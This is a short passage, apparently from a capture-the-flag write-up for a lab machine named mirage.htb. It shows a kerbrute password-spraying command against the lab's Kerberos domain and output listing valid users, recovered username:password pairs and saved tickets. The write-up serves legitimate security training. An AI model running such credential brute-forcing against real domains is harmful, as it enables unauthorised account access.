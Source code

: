 
```python
!kerbrute -domain mirage.htb -users users -passwords passwords
```

    Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 
    
    [*] Valid user => david.jjackson
    [*] Valid user => nathan.aadam
    [*] Valid user => mark.bbond
    [*] Blocked/Disabled user => javier.mmarshall
    [*] Stupendous => david.jjackson:DJACKSONPASS
    [*] Saved TGT in david.jjackson.ccache
    [*] Stupendous => nathan.aadam:NATHANADAMPASS
    [*] Saved TGT in nathan.aadam.ccache
    [*] Stupendous => mark.bbond:MARKBONDPASS
    [*] Saved TGT in mark.bbond.ccache


We finally have a first clear goal. To what end, I don't know at this point; but we're going to get it.
